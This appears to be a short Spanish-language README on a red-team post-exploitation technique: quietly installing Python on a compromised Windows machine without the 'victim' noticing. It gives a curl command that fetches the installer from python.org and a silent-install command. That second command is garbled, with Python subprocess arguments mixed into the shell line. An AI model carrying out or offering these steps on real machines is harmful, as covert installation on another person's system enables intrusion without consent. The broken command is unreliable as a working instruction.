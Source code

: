 # tecnicas red team (post explotación)
                                             
![Art Love GIF](https://media2.giphy.com/media/v1.Y2lkPTc5MGI3NjExMjdrdWl6dTg3eHMwcnhxZjhpM3VmaTJsdzhrbzZlaGljaW4ydmd4MCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/VTRUeNCbZECfhV9o7E/giphy.gif)

Instala Python sin que tu "víctima" se dé cuenta.

# ¿Como funciona?
### Explicación del Comando

Este comando se divide en dos partes principales: **descarga** e **instalación** de Python. A continuación, se explica cada paso:

#### **1. Descarga el instalador de Python**

``curl https://www.python.org/ftp/python/3.11.4/python-3.11.4-amd64.exe --output python-3.11.4-amd64.exe``

* Utiliza curl para descargar la versión 3.11.4 de Python desde el sitio oficial.
* Guarda el archivo como python-3.11.4-amd64.exe en el directorio actual.

#### **2. Ejecuta el instalador de Python en modo silencioso**

``python-3.11.4-amd64.exe /quiet InstallAllUsers=1 PrependPath=1 Include_test=0, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE``

